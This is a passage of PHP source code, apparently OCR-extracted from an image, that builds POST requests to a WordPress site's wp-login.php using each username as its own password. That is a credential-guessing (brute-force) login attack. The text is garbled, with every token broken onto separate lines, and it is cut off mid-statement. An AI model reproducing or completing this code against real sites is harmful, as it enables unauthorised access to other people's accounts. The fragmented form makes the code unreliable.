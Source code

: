 ) {
        

$url

=

$domain

.

"/wp-login.php"

;

        

if

(

$passwords

==

"same"

) {
            

$post

=

"log="

.urlencode(

$name

).

"&pwd="

.urlencode(

$name

).

"&wp-submit=%E7%99%BB%E5%BD%95&redirect_to="

.urlencode(

$domain

).

"%2Fwp-admin%2F&testcookie=1"

;

            

$pos

=
